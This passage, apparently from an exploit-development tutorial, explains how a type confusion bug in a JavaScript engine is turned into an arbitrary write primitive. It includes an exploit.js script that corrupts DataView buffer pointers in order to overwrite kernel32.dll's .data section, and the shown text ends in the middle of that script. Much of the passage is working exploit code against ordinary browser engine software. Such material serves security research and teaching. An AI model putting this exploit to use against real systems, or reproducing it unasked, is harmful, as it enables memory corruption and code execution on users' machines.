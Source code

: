 If we invoke `setUint32()` on `dataview2`, we do so at an offset of `0`. This is because we are not attempting to corrupt any other objects, we are intending to use `dataview2.setUint32()` in a legitimate fashion. When `dataview2->setUint32()` is invoked, it will fetch the address of the `buffer` from `dataview2` by locating `dataview2+0x38`, derefencing the address, and attempting to write the value `0x4242424242424242` (as seen above) into the address.

The issue is, however, is that we used a type confusion vulnerability to update `dataview2->buffer` to a _different_ address (in this case an invalid address of `0x4141414141414141`). This is the address `dataview2` will now attempt to write to, which obviously will cause an access violation.

Let's do a test run of an arbitrary write primitive to overwrite the first 8 bytes of the `.data` section of `kernel32.dll` (which is writable) to see this in action. To do so, let's update our `exploit.js` script to the following:

```javascript
// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    // Print debug statement
    print("DEBUG");

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // Set dataview2->buffer to kernel32.dll .data section (which is writable)
    dataview1.setUint32(0x38, 0x5b3d0000+0xa4000, true);
    dataview1.setUint32(0x3C, 0x00007fff, true);

    // Overwrite kernel32.dll's .data section's first 8 bytes with 0x4141414141414141
```